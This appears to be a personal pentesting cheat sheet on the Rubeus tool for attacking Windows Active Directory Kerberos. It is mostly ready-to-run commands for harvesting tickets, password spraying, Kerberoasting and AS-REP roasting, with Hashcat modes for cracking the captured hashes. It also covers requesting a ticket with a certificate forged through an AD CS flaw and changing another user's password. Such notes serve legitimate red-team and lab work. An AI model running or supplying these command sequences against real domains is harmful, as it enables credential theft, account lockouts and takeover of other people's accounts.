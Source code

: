 # Using Rubeus

author:: Nathan Acks  
date:: 2022-05-11

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux's `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Kerberos](kerberos.md)

# Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the current machine.
# Probably works best when run on a domain controller.
#
Rubeus.exe harvest /interval:30
```

# Password Spraying

```powershell
# Spray the specified password across all known users and generate a
# ticket giving ticket for successful authentications. (Can trigger
# account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

# Kerberoasting

```powershell
# Extract password hashes for all known kerberoastable accounts using
# Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

* [Using Hashcat](hashcat.md)

# AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` -> `$kerb5asrep$23$`) and then use mode 18200.

# Using a Certificate to Request a Ticket

```powershell
# Request a ticket using a certificate from AD CS.
#
Rubeus.exe asktgt /user:$USER `
                  /enctype:aes256 `
                  /certificate:$CERTIFICATE_FILE `
                  /password:$CERTIFICATE_FILE_PASSWORD `
                  /outfile:$TICKET_FILE `
                  /domain:$DOMAIN `
                  /dc:$DC_IP_ADDRESS
```

This is very useful if we've used an AD CS misconfiguration as described by SpectreOps' "Certified Pre-Owned" research to forge a certificate that's valid for another user.

* [SpectreOps: Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

# Change a User's Password

```powershell
# We can use Rubeus to change the password for domain users so long as
# our ticket is for a user with permission to do so (generally the user
# themselves or a domain admin.
#
Rubeus.exe changepw /ticket:$TICKET_FILE `
                    /new:$NEW_PASSWORD `
                    /dc:$DC_IP_ADDRESS `
                    /targetuser:$DOMAIN\$USER
```
